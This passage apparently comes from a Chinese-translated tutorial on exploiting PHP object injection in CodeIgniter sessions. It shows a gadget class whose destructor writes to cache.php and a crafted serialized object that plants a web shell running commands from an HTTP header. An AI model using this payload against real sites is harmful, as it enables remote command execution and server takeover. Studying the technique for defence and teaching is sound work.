 我们知道CI在unserialize之后会去检查ip地址和user-agents。但是在那个检查获取控制之前已经对象注入完毕了。我们可以随心所欲修改它

现在是时候创建我们用来利用的对象类。下述的类可以在我们的例子中application/libraries路径找到 译者注：`/application/libraries/Customcacheclass.php`

```
<?php
/**
* Created by PhpStorm.
* User: mince
* Date: 4/18/14
* Time: 3:34 PM
*/
if ( ! defined('BASEPATH')) exit('No direct script access allowed');

class Customcacheclass {

    var $dir = '';
    var $value = '';
    public function __construct()
    {
        $this->dir = dirname(__FILE__)."/cache_dir/";
    }

    public function set_value($v){
        $this->value = $v;
    }

    public function get_value(){
        return $this->value;
    }
    public function __destruct(){
        file_put_contents($this->dir."cache.php", $this->value, FILE_APPEND);
    }
}

```

你可以看到`__destruct`方法把类变量保存在了cache.php文件内。序列化形式的Cacheclass会像下面所示字符串一样

```
//
O:10:"Cacheclass":2:{s:3:"dir";s:15:"/tmp/cache_dir/";s:5:"value";s:3:"NUL";}

```

我们要把它改成下述形式来向cache.php文件中写入eval运行的代码

```
<?php
class Customcacheclass {

    var $dir = 'application/libraries/cache_dir/';
    var $value = '<?php system($_SERVER[HTTP_CMD]);?>';
}
echo serialize(new Customcacheclass);




// Result
// 运行结果
O:16:"Customcacheclass":2:{s:3:"dir";s:32:"application/libraries/cache_dir/";s:5:"value";s:35:"<?php system($_SERVER[HTTP_CMD]);?>";}

```
